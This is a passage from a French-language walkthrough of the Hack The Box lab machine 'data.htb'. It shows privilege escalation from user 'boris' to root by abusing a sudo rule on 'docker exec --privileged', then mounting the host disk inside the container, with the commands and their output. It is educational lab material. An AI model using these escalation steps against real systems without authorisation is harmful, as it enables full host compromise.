122 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 18.04 at
https://ubuntu.com/18-04


Last login: Wed Jun  4 13:37:31 2025 from 10.10.14.62
boris@data:~$ 
```

Une fois connecté en SSH, tu commences par vérifier ton contexte avec les commandes classiques :

```bash
whoami
boris
id
uid=1001(boris) gid=1001(boris) groups=1001(boris)
```

Tu poursuis ensuite par un listing du répertoire courant afin d’identifier rapidement l’environnement et les fichiers accessibles :

```bash
ls -la
total 36
drwxr-xr-x 5 boris boris 4096 Jun  4  2025 .
drwxr-xr-x 3 root  root  4096 Jun  4  2025 ..
lrwxrwxrwx 1 boris boris    9 Jan 23  2022 .bash_history -> /dev/null
-rw-r--r-- 1 boris boris  220 Jan 23  2022 .bash_logout
-rw-r--r-- 1 boris boris 3771 Jan 23  2022 .bashrc
drwx------ 2 boris boris 4096 Jan 23  2022 .cache
drwx------ 3 boris boris 4096 Jan 23  2022 .gnupg
drwxrwxr-x 3 boris boris 4096 Jan 23  2022 .local
-rw-r--r-- 1 boris boris  807 Jan 23  2022 .profile
-rw-r----- 1 boris boris   33 Jan 27 08:33 user.txt
boris@data:~$
```

### user.txt

```bash
cat user.txt
ad3cxxxxxxxxxxxxxxxxxxxxxxxx0613
```


## Escalade de privilèges

Une fois connecté en SSH en tant que `boris`, tu appliques la méthodologie décrite dans la recette
   .

### sudo -l

La première étape consiste toujours à vérifier les droits `sudo` :

```bash
sudo -l
Matching Defaults entries for boris on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on localhost:
    (root) NOPASSWD: /snap/bin/docker exec *

```

Ce droit te permet d’exécuter la commande `docker exec` avec les privilèges **root**, sans mot de passe, ce qui signifie que tu peux lancer des commandes à l’intérieur d’un conteneur sans restriction et ouvre, dans un contexte Docker, une voie directe vers une escalade de privilèges nécessitant une analyse approfondie.

------

### Identification du conteneur actif

Tu vas maintenant chercher à identifier les conteneurs Docker actifs sur la machine afin de déterminer lequel peut être exploité pour l’escalade de privilèges.

L’accès à la commande `docker ps` n’étant pas autorisé, tu peux identifier les conteneurs Docker actifs directement au niveau des processus système :

```bash
ps aux | grep -i docker | grep -v grep
root      1015  0.0  4.0 1496232 81368 ?       Ssl  10:51   0:05 dockerd --group docker --exec-root=/run/snap.docker --data-root=/var/snap/docker/common/var-lib-docker --pidfile=/run/snap.docker/docker.pid --config-file=/var/snap/docker/1125/config/daemon.json
root      1250  0.1  2.1 1351056 44408 ?       Ssl  10:51   0:20 containerd --config /run/snap.docker/containerd/containerd.toml --log-level error
root      1514  0.0  0.1 1152456 3256 ?        Sl   10:52   0:00 /snap/docker/1125/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 3000 -container-ip 172.17.0.2 -container-port 3000
root      1521  0.0  0.1 1078724 3344 ?        Sl   10:52   0:00 /snap/docker/1125/bin/docker-proxy -proto tcp -host-ip :: -host-port 3000 -container-ip 172.17.0.2 -container-port 3000
root      1535  0.0  0.4 713120  8592 ?        Sl   10:52   0:00 /snap/docker/1125/bin/containerd-shim-runc-v2 -namespace moby -id e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 -address /run/snap.docker/containerd/containerd.sock
472       1557  0.1  3.0 776036 62732 ?        Ssl  10:52   0:14 grafana-server --homepath=/usr/share/grafana --config=/etc/grafana/grafana.ini --packaging=docker cfg:default.log.mode=console cfg:default.paths.data=/var/lib/grafana cfg:default.paths.logs=/var/log/grafana cfg:default.paths.plugins=/var/lib/grafana/plugins cfg:default.paths.provisioning=/etc/grafana/provisioning
root      2917  0.0  0.2  63972  4280 pts/0    S+   10:57   0:00 sudo /snap/bin/docker exec --privileged -u 0 -it e6ff5b1cbc85 sh
root      2918  0.0  2.4 1289608 50260 pts/0   Sl+  10:57   0:02 /snap/docker/1125/bin/docker exec --privileged -u 0 -it e6ff5b1cbc85 sh
```

En listant les processus liés à Docker, tu identifies un processus `containerd-shim-runc-v2`, ce qui indique qu’un conteneur Docker est actif et te fournit son identifiant via l’option `-id`.
 Les **12 premiers caractères** de cet identifiant (`e6ff5b1cbc85`) suffisent ensuite pour cibler le conteneur et exécuter des commandes à l’intérieur de celui-ci avec `docker exec`.

------

### Shell root via Docker

L’aide de `docker exec` indique que les options `--privileged` et `--user root` permettent de lancer une commande à l’intérieur du conteneur avec des droits étendus. Dans ce contexte, la commande exécutée sera `/bin/bash` afin d’obtenir un shell root. Une fois ce shell root obtenu, tu disposeras des privilèges nécessaires pour effectuer des opérations système sensibles, comme le montage de partitions, ce qui permettra de monter la partition du système hôte directement dans le conteneur.

```bash
sudo /snap/bin/docker exec --privileged -u 0 -it e6ff5b1cbc85 sh
```

Tu confirmes ensuite le contexte d’exécution :

```bash
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

------

### Identification des partitions du système hôte

Une fois le shell root obtenu à l’intérieur du conteneur, tu peux identifier les périphériques de stockage exposés par l’hôte.
 La consultation du fichier `/proc/partitions` permet de lister les disques et partitions disponibles :

```bash
cat /proc/partitions
major minor  #blocks  name

   7        0      56820 loop0
   7        1     119340 loop1
   7        2      25576 loop2
   7        3      43184 loop3
   8        0    6291456 sda
   8        1    5242880 sda1
   8        2    1047552 sda2

```

La sortie met en évidence la présence du disque principal `sda`, ainsi que de ses partitions, dont `sda1`, qui correspond à la partition système de l’hôte.

Pour confirmer leur présence au niveau des périphériques, tu peux également vérifier le contenu du répertoire `/dev` :

```bash
ls /dev | grep sda
sda
sda1
sda2

```

------

### Montage de la partition système de l’hôte

Disposant désormais des privilèges nécessaires, tu peux créer un point de montage dans le conteneur et y monter directement la partition système de l’hôte :

```bash
mkdir -p /mnt/host
mount /dev/sda1 /mnt/host

```

Cette opération permet d’accéder au filesystem complet de la machine hôte depuis le conteneur :

```bash
ls -la /mnt/host
total 112
drwxr-xr-x   23 root     root          4096 Jun  4  2025 .
drwxr-xr-x    1 root     root          4096 Jan 27 10:58 ..
drwxr-xr-x    2 root     root          4096 Apr  9  2025 bin
drwxr-xr-x    3 root     root          4096 Jun  4  2025 boot
drwxr-xr-x    4 root     root          4096 Nov 29  2021 dev
drwxr-xr-x   94 root     root          4096 Jun  4  2025 etc
drwxr-xr-x    3 root     root          4096 Jun  4  2025 home
lrwxrwxrwx    1 root     root            30 Apr  9  2025 initrd.img -> boot/initrd.img-5.4.0-1103-aws
lrwxrwxrwx    1 root     root            30 Jun  4  2025 initrd.img.old -> boot/initrd.img-5.4.0-1103-aws
drwxr-xr-x   19 root     root          4096 Apr 10  2025 lib
drwxr-xr-x    2 root     root          4096 Apr  9  2025 lib64
drwx------    2 root     root         16384 Nov 29  2021 lost+found
drwxr-xr-x    2 root     root          4096 Nov 29  2021 media
drwxr-xr-x    2 root     root          4096 Nov 29  2021 mnt
drwxr-xr-x    2 root     root          4096 Nov 29  2021 opt
drwxr-xr-x    2 root     root          4096 Apr 24  2018 proc
drwx------    7 root     root          4096 Jan 27 10:52 root
drwxr-xr-x    5 root     root          4096 Nov 29  2021 run
drwxr-xr-x    2 root     root         12288 Jun  4  2025 sbin
drwxr-xr-x    7 root     root          4096 Jan 23  2022 snap
drwxr-xr-x    2 root     root          4096 Nov 29  2021 srv
drwxr-xr-x    2 root     root          4096 Apr 24  2018 sys
drwxrwxrwt   11 root     root          4096 Jan 27 15:34 tmp
drwxr-xr-x   10 root     root          4096 Apr  9  2025 usr
drwxr-xr-x   13 root     root          4096 Nov 29  2021 var
lrwxrwxrwx    1 root     root            27 Apr  9  2025 vmlinuz -> boot/vmlinuz-5.4.0-1103-aws
lrwxrwxrwx    1 root     root            27 Jun  4  2025 vmlinuz.old -> boot/vmlinuz-5.4.0-1103-aws

```

------

### root.txt

Une fois la partition montée, le contenu du système hôte devient accessible.
 Tu peux notamment explorer le répertoire `/root` de l’hôte :

```bash
ls -l /mnt/host/root
total 8
-rw-r-----    1 root     root            33 Jan 27 10:52 root.txt
drwxr-xr-x    4 root     root          4096 Jan 23  2022 snap

```

Le fichier `root.txt` est alors directement visible et peut être lu sans nécessiter de `chroot` :

```
cat /mnt/host/root/root.txt
de7fxxxxxxxxxxxxxxxxxxxxxxxx5a77
```

Cette étape confirme l’obtention d’un accès **root complet** sur la machine hôte via l’exploitation de Docker.

## Conclusion

La machine **data.htb** illustre parfaitement un **CTF Easy Hack The Box** centré sur l’exploitation de services web et d’environnements **Docker**. Ce writeup te guide pas à pas depuis l’énumération initiale jusqu’à l’exploitation de **Grafana (CVE-2021-43798)** par path traversal, la récupération de la base `grafana.db`, le **crack hors-ligne des hashes**, puis la **réutilisation des identifiants en SSH**.

L’escalade de privilèges repose ensuite sur une mauvaise configuration de **Docker**, permettant via `sudo docker exec` d’obtenir un shell root dans un conteneur et de **monter la partition du système hôte**, conduisant à un **accès root complet**.

**Si tu rencontres d’autres machines utilisant Grafana ou des applications containerisées, garde ce réflexe : un service web vulnérable combiné à un accès Docker mal maîtrisé peut suffire à compromettre entièrement le système.**

**En résumé**

Writeup **data.htb (HTB Easy)** axé sur l’exploitation de **Grafana (CVE-2021-43798)** : path traversal, extraction de `grafana.db`, **crack des hashes**, réutilisation des identifiants en **SSH**, puis **escalade root via Docker** (`sudo docker exec` et montage du disque hôte).
 Une méthodologie simple et reproductible montrant comment un **service web vulnérable**, associé à une **mauvaise isolation Docker**, peut mener à un **accès root complet**.

---

## Feedback & corrections

Tu as repéré une erreur ou une imprécision ?

<a href="#" id="contact-link">Envoye un message</a>

<script>
(function () {
  const user = "feedback";
  const domain = "hackethical.be";

  // Récupère le H1 (titre du writeup uniquement)
  const h1 = document.querySelector("h1");
  const title = h1 ? h1.innerText.trim() : document.title;

  const subject = "Feedback - " + title;
  const pageUrl = window.location.href;

  const nl = "\r\n";
  const body =
    "Bonjour," + nl + nl +
    "J’ai identifié un point à signaler dans le writeup :" + nl + nl +
    "Titre : " + title + nl + nl +
    "Section concernée :" + nl +
    "(Indique ici la section ou la commande)" + nl + nl +
    "Description :" + nl +
    "(Explique le problème ou la suggestion)" + nl + nl +
    "---" + nl;

  const link = document.getElementById("contact-link");
  if (link) {
    link.href =
      "mailto:" + user + "@" + domain +
      "?subject=" + encodeURIComponent(subject) +
      "&body=" + encodeURIComponent(body);
  }
})();
</script>
